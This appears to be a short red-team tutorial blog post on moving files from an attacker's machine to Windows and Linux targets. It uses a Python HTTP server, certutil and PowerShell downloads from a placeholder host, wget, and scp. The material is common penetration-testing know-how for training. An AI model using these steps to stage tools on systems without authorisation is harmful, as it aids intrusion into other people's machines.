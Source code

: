 ```yaml
---
title: "File Transfer"
collection: posts
type: "Info"
permalink: /posts/2023-spring-teaching-3
venue: "Red Teaming"
date: 2023-02-13
location: "City, Country"
---
```


# Description :
File transfer between Linux and Windows.



Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine.

## Using Python


```bash
python3 -m  http.server  PORT_NUMBER
```
  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```